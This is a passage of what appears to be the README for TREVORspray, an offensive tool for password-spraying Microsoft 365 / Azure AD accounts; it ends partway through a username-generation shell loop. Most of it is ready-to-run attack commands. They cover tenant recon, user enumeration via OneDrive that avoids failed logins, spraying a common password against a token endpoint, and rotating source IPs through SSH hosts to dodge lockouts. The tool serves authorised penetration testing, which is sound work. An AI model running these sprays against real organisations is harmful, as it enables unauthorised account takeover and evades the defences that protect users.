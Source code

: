 ## How To - O365
- First, get a list of emails for `corp.com` and perform a spray to see if the default configuration works. Usually it does.
- If TREVORspray says the emails in your list don't exist, don't give up. Get the `token_endpoint` with `--recon corp.com`. The `token_endpoint` is the URL you'll be spraying against (with the `--url` option).
- It may take some experimentation before you find the right combination of `token_endpoint` + email format.
    - For example, if you're attacking `corp.com`, it may not be as easy as spraying `corp.com`. You may find that Corp's parent company Evilcorp owns their Azure tenant, meaning that you need to spray against `evilcorp.com`'s `token_endpoint`. Also, you may find that `corp.com`'s internal domain `corp.local` is used instead of `corp.com`.
    - So in the end, instead of spraying `bob@corp.com` against `corp.com`'s `token_endpoint`, you're spraying `bob@corp.local` against `evilcorp.com`'s.

## Example: Perform recon against a domain (retrieves tenant info, autodiscover, mx records, etc.)
```bash
trevorspray --recon evilcorp.com
...
    "token_endpoint": "https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token"
...
```

## Example: Enumerate users via OneDrive (no failed logins)
```bash
trevorspray --recon evilcorp.com -u emails.txt --threads 10
```

![recon-user-enumeration](https://user-images.githubusercontent.com/20261699/151052308-d938bf6c-f335-4d3e-9c3c-1fd79a188e73.gif)

## Example: Spray against discovered "token_endpoint" URL
```bash
trevorspray -u emails.txt -p 'Welcome123' --url https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token
```

## Example: Spray with 5-second delay between requests
```bash
trevorspray -u bob@evilcorp.com -p 'Welcome123' --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is also used, unless `-n` is specified)
```bash
trevorspray -u emails.txt -p 'Welcome123' --ssh root@1.2.3.4 root@4.3.2.1
```

## Example: Find valid usernames without OSINT >:D
```bash
# clone wordsmith dataset
wget https://github.com/skahwah/wordsmith/releases/download/v2.1.1/data.tar.xz && tar -xvf data.tar.xz && cd data

# order first initial by occurrence
ordered_letters=asjmkdtclrebnghzpyivfowqux

# loop through first initials
echo -n $ordered_letters | while read -n1 f; do
  # loop through top 2000 USA last names
  head -n 2000 'usa/lnames.txt' | while read last; do
```